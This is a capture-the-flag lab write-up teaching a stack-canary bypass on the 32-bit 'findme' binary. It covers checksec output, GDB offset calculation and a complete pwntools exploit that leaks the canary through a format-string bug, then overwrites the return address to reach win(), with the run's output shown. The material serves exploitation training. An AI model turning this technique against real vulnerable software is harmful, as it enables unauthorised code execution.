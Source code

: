```yaml
---
description: A small spin on the canary problem.
---
```


# findme

{% file src="../../.gitbook/assets/findme.zip" %}

This challenge is very similar to the _canary_ challenge so we will skip the parts explaining the underlying theory. The goal of this problem is not only to provide more practice but also to show the speed at which these binaries can be exploited.

If you can go from nothing to an attack vector to an exploit for most problems in no more than 30 minutes, you're on the right track to succeed.

### Static Analysis

If we check the security, we notice that there is clearly a canary present.

```bash
$ checksec ./findme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/findme/src/findme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We notice that the functions that aren't part of the STL are `main()`, `read_in()`, and `win()`.

* `main()` calls `read_in` and then returns.
* `win()` calls `system()` and then returns.

That leaves `read_in`. We notice the following:

* The canary is stored at `ebp-0xc`.
* There is a format string bug at `read_in+116`.
* We start writing at `ebp-0x48`.

Moving to the `gets` call that supplies the input to the format string vulnerability, we can quickly get the offset to the canary:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  x/20wx $esp
0xffffd550:	0xffffd560	0x00000014	0x00000000	0x080491d2
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0xf7fbe4a0
0xffffd590:	0xffffd5d0	0xf7fbe66c	0xf7fbeb20	0xbc53b400
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We see the canary is at the 19th offset on the stack. If we want to do this mathematically, the canary is at `ebp-0xc`, and the stack pointer is at `esp`. We can do this math inside `gdb`:

{% tabs %}
{% tab title="GDB" %}
```as
gef➤  p/x $esp
$3 = 0xffffd550
gef➤  p/x $ebp-0xc
$4 = 0xffffd59c
gef➤  python print((0xffffd59c-0xffffd550)/4)
19.0
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The reason that we divide by four is that each address is four bytes long.

### Crafting the Payload

From here, we know what the payload is going to look like.

1. The first time around: send the format string to leak the canary.
2. The second time around: pad to the canary, write the canary, then pad to the return address, and overwrite the return address.

Let's make this happen.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4300)

# get the line of data
print(proc.recvline())

# payload round 1: leak the canary
proc.sendline(b'%19$p')
print(proc.recvuntil(b', '))
leak = int(proc.recvuntil(b'!')[:-1].decode(), 16)
print(proc.recvuntil(b':'))

print("Canary leaked:", hex(leak))

# payload round 2: buffer overflow
payload = b''
payload += b'A' * 40
payload += p32(leak)
payload += b'B' * 12
payload += p32(0x080492b9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running the exploit gets us the flag:

```bash
$ python3 exploit.py
b'Enter your username.\n'
b'Hi, '
b' Enter your password:'
Canary leaked: 0xf604b100
[*] Switching to interactive mode
 flag{combining_techniques_is_essential}
/home/ctf/runner.sh: line 5:    27 Segmentation fault      (core dumped) ./findme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 4300
```
